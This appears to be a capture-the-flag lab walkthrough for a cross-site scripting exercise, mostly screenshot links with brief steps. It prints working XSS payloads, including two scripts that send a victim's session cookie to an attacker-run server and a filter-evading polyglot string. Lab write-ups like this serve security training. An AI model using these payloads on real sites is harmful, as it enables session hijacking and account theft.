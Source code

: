 ```yaml
---
date: 2025-03-02
categories: [CTF, IML]
title: "IML - Cross-Site Scripting: Ep.7 – Demonstrate your Skills"
tags: ['privilege escalation', 'python', 'rce', 'xss']

description: "Cross-Site Scripting Ep.7 – D - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.7 – Demonstrate your Skills

- Make two users and log in with one of them

![image1](../resources/bf1c9864ffd44a8482e91cf21757504c.png)


![image2](../resources/965da10ce3de4cb08206b180ac07e031.png)
```java
<script>window.alert(1)</script>
```

![image3](../resources/4e83f2c4d4784e6485d2cc9391d26bca.png)

- This is the Reflected XSS

- For the Stored XSS:

![image4](../resources/bbb7b944ad8343648fe5e7abf262471d.png)


![image5](../resources/3320108f120c44b286a3b8a793ee200d.png)
<script>window.alert("hey")</script>

- The same command gets used but this time it gets sent and stored until the victim opens the message


![image6](../resources/10122d593bc440adb0592363c324166a.png)


![image7](../resources/eafa9fbb6ac34a338fcb678e5e7a6301.png)


![image8](../resources/b935bcef4e1e4e18a4f21c515ad16ef5.png)

- This one we need to steal a users token, that we don’t have access to

- Set up Python server

- And send the following to jerry as a message:
```java
<script>document.location="http://10.102.164.154:8080/?cookie="+document.cookie;</script>
```
- Or try:
```java
<script>fetch("http://10.8.31.73:8000/"+document.cookie)</script>
```

![image9](../resources/2d4279c0527943b193730f39899d949e.png)


![image10](../resources/8a22e3c7091943fdb147e6757513045a.png)


![image11](../resources/c4405880582946958c94541bcb8fe1a5.png)
- Some filter evasion is being used


![image12](../resources/86b5fe4da4ec44c4b9879a4d0384c9dd.png)

- Login with the user:
```js
<Script>alert(1)</Script>
```


![image13](../resources/4d80f80af9204e8da3cda0a19d65abf7.png)


![image14](../resources/b35a0140fd544660a5bfb989deaea27e.png)

- Filter evasion


![image15](../resources/def49cd6745b4d1f99189caa12b84c67.png)

- Using a polyglot to get past the filter (bit of a cheating way, instead of using trial and error)
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("XSS") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

![image16](../resources/c0d527b467d54c29862de012ea1c9a3c.png)


![image17](../resources/22996ece1dc74f9da2b1990175591910.png)![image18](../resources/f2c61726ff2940df8e9f18266e77ac00.png)![image19](../resources/8ad3d31a6112462fb0c5f0c1a03f0b83.png)


![image20](../resources/3643c3c909b34b3486b3aecdb4e83c73.png)![image21](../resources/849cbf03293c42f289ae7c8b15c4b94d.png)


![image22](../resources/2022a091738e414a836c7c847e3f6a77.png)![image23](../resources/cdb7e1e8632449f6b8bcfce653ea3fe6.png)